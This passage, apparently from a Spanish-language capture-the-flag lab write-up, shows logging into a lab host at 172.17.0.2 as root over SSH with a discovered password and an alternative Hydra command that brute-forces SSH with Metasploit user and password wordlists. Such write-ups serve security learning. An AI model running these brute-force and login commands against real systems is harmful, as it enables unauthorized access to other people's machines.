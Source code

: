<p align="center">
    <img src="../img/Pasted_image_20241231181259.png" width="500">
</p>

Me encuentra la contraseña del usuario `root:estrella`


Iniciamos sesión en el protocolo `SSH` con dichas credendiales
```
ssh root@172.17.0.2    # Después introducimos la contraseña estrella
```

<p align="center">
    <img src="../img/Pasted_image_20241231181435.png" width="500">
</p>

---


#### HYDRA

También podemos realizar la fuerza bruta con HYDRA sin conocer ningún usuario ni contraseña
```
hydra -L /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/metasploit/unix_passwords.txt 172.17.0.2 -t 4 ssh
```

<p align="center">
    <img src="../img/Pasted_image_20241231184343.png" width="500">
</p>
